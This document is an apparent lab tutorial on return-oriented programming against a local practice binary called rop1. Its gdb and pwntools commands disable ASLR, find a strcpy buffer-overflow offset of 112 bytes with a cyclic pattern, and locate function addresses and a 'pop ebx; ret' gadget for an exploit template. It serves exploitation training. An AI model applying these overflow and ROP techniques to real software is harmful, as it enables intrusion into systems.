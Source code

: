 # ROP

## Requirements

- pwntools
- pwndbg

Disable ASLR

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

> Don't forget to reenable the feature
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

## X64?

You will need 32-bit development headers and libraries

```bash
sudo apt-get install gcc-multilib
```

## Let's build the binary

```bash
make
```

## Do some research

```bash
gdb ./rop1
 
info functions # POdem veure main / vulnerable / rop1 rop2

disassemble vulnerable # Podem veure que fa una call a strcpy (potencial bof)

disassemble rop1 # Podem veure que només executa Puts # PRintF però al no passar cap parametre és més eficient

disassemble rop2 #crida a printf i es passa un parametre ebp+0x8
```

# Break the code!

```bash
gdb ./rop1
run $(python3 -c 'from pwn import *; print(cyclic(500))')
cyclic -l 0x61646261 #110
run $(python3 -c 'from pwn import *; import sys; print("A"*112 + "B"*4)')
```

## ROP

-> Buscamos las variables de las funciones

```bash
gdb ./rop1
b main
run
--
p rop1
p rop2
p exit
```

> Rellenamos la plantilla con los valores


-> Buscamos un gadget pop; ret
```bash
rop --grep 'pop' # pop ebx; ret

# 0x5655601e

> rellenamos la plantilla (exploit_template.py)
```
